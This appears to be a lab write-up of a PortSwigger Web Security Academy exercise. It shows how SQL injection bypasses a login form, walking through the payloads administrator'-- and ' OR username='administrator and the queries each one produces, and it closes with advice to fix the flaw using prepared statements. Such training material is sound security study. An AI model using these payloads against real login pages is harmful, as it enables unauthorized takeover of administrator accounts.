

# SQL injection vulnerability allowing login bypass

---

## Executive Summary

In the PortSwigger Web Security Academy lab “SQL injection vulnerability *allowing login bypass*,” we proved that an attacker can sign in as the **administrator** without knowing the password.
The root cause is classic: the application concatenates raw user input into a SQL `WHERE` clause and sends it straight to the database. By injecting a tiny fragment of SQL, we neutralised the password check and gained privileged access.

---

# Description

---

## Why This Matters to You

* **Total account takeover:** Attackers can jump straight into high-privilege accounts and perform any action those accounts allow.
* **Business-logic defeat:** All downstream controls that rely on authentication (audit trails, personalisation, billing rules, etc.) instantly lose integrity.
* **Reputational & regulatory risk:** Compromised admin accounts often lead to data-privacy breaches and service defacement—both carry hefty legal and PR consequences.

---

## Step-by-Step Walk-Through

| # | What we did (attacker’s input)                                                          | Intended SQL built by the app                                                               | What actually happens & why                                                                                                       |
| - | --------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------- | --------------------------------------------------------------------------------------------------------------------------------- |
| 1 | **Baseline login test** — `administrator / xxx`                                         | `SELECT * FROM users WHERE username='administrator' AND password='xxx'`                     | Fails (as expected).                                                                                                              |
| 2 | **Username-field comment injection** — `administrator'--`                               | `SELECT * FROM users WHERE username='administrator'-- ' AND password='xxx'`                 | The `--` turns the rest of the line into a comment, **removing the password check**. We are logged in as admin.                   |
| 3 | **Password-field OR-clause injection** — password set to `' OR username='administrator` | `SELECT * FROM users WHERE username='whatever' AND password='' OR username='administrator'` | The always-true second condition (`username='administrator'`) is evaluated; the first half can be anything. Admin access granted. |

> *(Both payloads must be URL-encoded when sent through a proxy like Burp Suite; browsers handle this automatically in the normal form.)*

---

## Observable Output

| Test                                                | Visible result                         | What it proved                          |
| --------------------------------------------------- | -------------------------------------- | --------------------------------------- |
| Baseline credentials                                | “Login failed”                         | Normal operation.                       |
| Username comment (`administrator'--`)               | Dashboard appears as **administrator** | Password check bypassed.                |
| Password OR clause (`' OR username='administrator`) | Same administrator dashboard           | Alternate vector confirms vulnerability |

---

## Conclusion

A single inline comment (`--`) or `OR` condition was enough to hijack the administrator session. Any real-world system with this flaw would be one click away from a full breach. Prioritise code review and prepared-statement refactoring immediately.
